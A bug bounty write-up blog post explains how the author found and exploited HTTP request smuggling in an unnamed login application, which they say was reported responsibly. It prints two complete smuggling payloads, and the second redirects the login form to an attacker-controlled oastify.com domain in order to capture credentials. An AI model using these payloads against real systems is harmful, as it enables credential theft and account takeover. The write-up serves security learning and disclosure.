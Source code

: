 ```yaml
---
layout: post
title: Stealing Login Credentails using HTTP Request Smuggling
date: 2023-08-15 07:03 +0000
categories: [bugbounty, writeup]
tags: [bugbounty] 
---
```


I recently discovered a significant security vulnerability in a target. The vulnerability, HTTP request smuggling, allowed me to manipulate the application's behavior, potentially compromising user credentials. I responsibly reported this vulnerability to the application's development team, who took appropriate measures to address it.

## Description

The vulnerability I found in the target is an instance of HTTP request smuggling. It arises when an attacker can manipulate the application's interpretation of HTTP requests, leading to behaviors that differ from the intended ones. By exploiting this vulnerability, an attacker could gain unauthorized access to user credentials, potentially compromising their accounts.

### Confirmation of Vulnerability

To confirm the presence of the vulnerability, I crafted a malicious HTTP request using the following payload:

```

POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /robots.txt HTTP/1.1
X-Ignore: X
```

Instead of the expected response of "302," the application returned a "404" status code, indicating that the vulnerability was present.

![Screenshot](https://jaksan.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F22149b15-d733-4242-b5ad-6d1645d78a09%2FScreenshot_2023-05-16_at_12.07.05_PM(1).jpg?table=block&id=5f03f4bc-0539-4e4c-87aa-5ba0aa8d37d2&spaceId=13ac45fb-0b3e-4834-8b18-ec6f584d18fd&width=2000&userId=&cache=v2)

### Exploiting the Vulnerability

Further investigation using param-miner extension revealed that the application accepts the **x-forwarded-for** header, which allowed me to manipulate the "Host" value in the response. With this information, I crafted a second request to redirect the base URL of the login form to a controlled domain, as demonstrated by the following payload:

```

POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Content-Type: application/x-www-form-urlencoded
Content-Length: 421
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /ENDPOINT HTTP/1.1
x-forwarded-host: gbvun9lgwxse701bwnjfn68snjtah25r.oastify.com
X-Ignore: X
```

This manipulation changed the base URL of the login request form to a malicious domain, allowing an attacker to intercept user credentials.

![Screenshot 2 ](https://jaksan.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fe67ab3da-1b94-4a50-a083-2bf026eb2be6%2FScreenshot_2023-05-22_at_9.27.15_PM.png?table=block&id=2c1eb8d5-52a8-4f58-9619-e4114745142c&spaceId=13ac45fb-0b3e-4834-8b18-ec6f584d18fd&width=2000&userId=&cache=v2)

### Potential Impact

The impact of this vulnerability is severe. When a legitimate user logs in to the affected application, their credentials are unknowingly sent to the malicious domain controlled by the attacker. This could lead to unauthorized access, account takeover, or further compromise of sensitive data.

### Reference

[PortSwigger](https://portswigger.net/web-security/request-smuggling)